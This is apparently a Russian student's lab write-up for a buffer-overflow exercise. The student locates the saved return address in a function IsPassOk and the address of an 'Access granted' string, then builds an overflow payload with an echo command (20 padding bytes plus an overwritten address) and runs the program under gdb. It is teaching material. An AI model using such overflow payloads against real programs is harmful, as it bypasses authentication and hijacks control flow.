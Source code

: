 # Решение задачи про взлом (5.2)

**1. Узнаем адрес возврата, сохраненный в ф-ии IsPassOk, который нужно перезаписать:**
![адрес возврата](images/adres_vozvrata.jpg)

**2. Узнаем адрес строки "Access granted":**
![адрес строки](images/adres_stroki.jpg)

**3. Запишем необходимое кол-во байт в файл input.txt:**

`` `echo -ne "12345678901234567890\xd8\x11\x40\00" > input.txt` ``

Пояснение: 20 байт - массив символов + сохр. rbp.

**4. Запуск программы:**

<pre> ```bash (gdb) b 30 Breakpoint 1 at 0x4011fa: file task5.2.c, line 31. (gdb) r < input.txt ``` </pre>

**Результат:**
![результат](images/result.jpg)